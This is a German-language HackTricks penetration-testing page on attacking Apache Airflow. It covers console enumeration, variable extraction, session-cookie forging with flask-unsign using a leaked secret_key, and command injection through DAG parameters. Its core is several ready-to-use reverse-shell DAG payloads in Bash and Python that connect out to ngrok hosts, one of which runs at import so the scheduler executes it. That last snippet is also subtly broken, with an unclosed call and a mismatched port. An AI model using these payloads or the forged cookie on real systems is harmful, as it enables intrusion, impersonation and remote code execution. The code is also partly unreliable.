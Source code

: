 # Apache Airflow Sicherheit

<details>

{% hint style="success" %}
Lernen Sie und üben Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie und üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories senden.

</details>
{% endhint %}

## Grundlegende Informationen

[**Apache Airflow**](https://airflow.apache.org) dient als Plattform zur **Orchestrierung und Planung von Datenpipelines oder Workflows**. Der Begriff "Orchestrierung" im Kontext von Datenpipelines bezeichnet den Prozess des Anordnens, Koordinierens und Verwaltens komplexer Datenworkflows, die aus verschiedenen Quellen stammen. Der Hauptzweck dieser orchestrierten Datenpipelines besteht darin, verarbeitete und nutzbare Datensätze bereitzustellen. Diese Datensätze werden von einer Vielzahl von Anwendungen umfassend genutzt, einschließlich, aber nicht beschränkt auf Business-Intelligence-Tools, Datenwissenschaft und Machine-Learning-Modelle, die alle grundlegend für die Funktionsweise von Big-Data-Anwendungen sind.

Grundsätzlich ermöglicht Ihnen Apache Airflow, **die Ausführung von Code zu planen, wenn etwas** (Ereignis, Cron) **passiert**.

## Lokales Labor

### Docker-Compose

Sie können die **Docker-Compose-Konfigurationsdatei von** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) verwenden, um eine vollständige Apache Airflow Docker-Umgebung zu starten. (Wenn Sie auf MacOS sind, stellen Sie sicher, dass Sie der Docker-VM mindestens 6 GB RAM zuweisen).

### Minikube

Eine einfache Möglichkeit, **Apache Airflow auszuführen**, besteht darin, es **mit Minikube auszuführen**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow Konfiguration

Airflow könnte **sensible Informationen** in seiner Konfiguration speichern oder es können schwache Konfigurationen vorhanden sein:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Bevor Sie Airflow angreifen, sollten Sie verstehen, **wie Berechtigungen funktionieren**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Angriffe

### Web-Konsolen-Auflistung

Wenn Sie **Zugriff auf die Web-Konsole** haben, könnten Sie auf einige oder alle der folgenden Informationen zugreifen können:

* **Variablen** (Benutzerdefinierte sensible Informationen könnten hier gespeichert sein)
* **Verbindungen** (Benutzerdefinierte sensible Informationen könnten hier gespeichert sein)
* Greifen Sie darauf zu unter `http://<airflow>/connection/list/`
* [**Konfiguration**](./#airflow-configuration) (Sensible Informationen wie der **`secret_key`** und Passwörter könnten hier gespeichert sein)
* Liste der **Benutzer & Rollen**
* **Code jeder DAG** (der interessante Informationen enthalten könnte)

### Abrufen von Variablenwerten

Variablen können in Airflow gespeichert werden, damit die **DAGs** auf ihre Werte zugreifen können. Es ist ähnlich wie bei Geheimnissen anderer Plattformen. Wenn Sie **ausreichende Berechtigungen** haben, können Sie auf sie im GUI unter `http://<airflow>/variable/list/` zugreifen.\
Standardmäßig zeigt Airflow den Wert der Variablen im GUI an, jedoch ist es gemäß [**diesem**](https://marclamberti.com/blog/variables-with-apache-airflow/) möglich, eine **Liste von Variablen** festzulegen, deren **Wert** im **GUI** als **Sternchen** angezeigt wird.

![](<../../.gitbook/assets/image (164).png>)

Diese **Werte** können jedoch immer noch über **CLI** (Zugriff auf die DB erforderlich), **beliebige DAG**-Ausführung, **API**-Zugriff auf den Variablen-Endpunkt (die API muss aktiviert sein) und **sogar das GUI selbst!** **abgerufen** werden. Um auf diese Werte im GUI zuzugreifen, wählen Sie einfach die Variablen aus, auf die Sie zugreifen möchten, und klicken Sie auf Aktionen -> Export.\
Ein weiterer Weg ist, eine **Brute-Force** auf den **versteckten Wert** durchzuführen, indem Sie ihn mit der **Suchfilterung** suchen, bis Sie ihn erhalten:

![](<../../.gitbook/assets/image (152).png>)

### Privilege Escalation

Wenn die Konfiguration **`expose_config`** auf **True** gesetzt ist, können ab der **Rolle Benutzer** und höher die **Konfiguration im Web** **gelesen** werden. In dieser Konfiguration erscheint der **`secret_key`**, was bedeutet, dass jeder Benutzer mit diesem gültigen Schlüssel seinen eigenen signierten Cookie erstellen kann, um ein beliebiges anderes Benutzerkonto zu **imitieren**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG Backdoor (RCE in Airflow worker)

Wenn Sie **Schreibzugriff** auf den Ort haben, an dem die **DAGs gespeichert sind**, können Sie einfach **einen erstellen**, der Ihnen eine **umgekehrte Shell sendet**.\
Beachten Sie, dass diese umgekehrte Shell innerhalb eines **Airflow-Worker-Containers** ausgeführt wird:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG Backdoor (RCE in Airflow Scheduler)

Wenn Sie etwas so einstellen, dass es **im Stamm des Codes ausgeführt wird**, wird es zum Zeitpunkt des Verfassens dieses Textes **vom Scheduler ausgeführt**, ein paar Sekunden nachdem es im Ordner des DAG platziert wurde.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG-Erstellung

Wenn es Ihnen gelingt, **eine Maschine innerhalb des DAG-Clusters zu kompromittieren**, können Sie neue **DAG-Skripte** im `dags/`-Ordner erstellen, und sie werden in den anderen Maschinen innerhalb des DAG-Clusters **repliziert**.

### DAG-Codeinjektion

Wenn Sie einen DAG aus der GUI ausführen, können Sie **Argumente übergeben**.\
Daher könnte der DAG **anfällig für Befehlsinjektion sein**, wenn er nicht ordnungsgemäß codiert ist.\
Das ist das, was bei diesem CVE passiert ist: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Alles, was Sie wissen müssen, um **nach Befehlsinjektionen in DAGs zu suchen**, ist, dass **Parameter** mit dem Code **`dag_run.conf.get("param_name")`** **abgerufen** werden.

Darüber hinaus könnte dieselbe Schwachstelle bei **Variablen** auftreten (beachten Sie, dass Sie mit ausreichenden Berechtigungen den **Wert der Variablen in der GUI steuern könnten**). Variablen werden **mit** zugegriffen:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Wenn sie zum Beispiel innerhalb eines Bash-Befehls verwendet werden, könnten Sie eine Befehlsinjektion durchführen.

<details>

{% hint style="success" %}
Lernen Sie & üben Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie & üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>
{% endhint %}
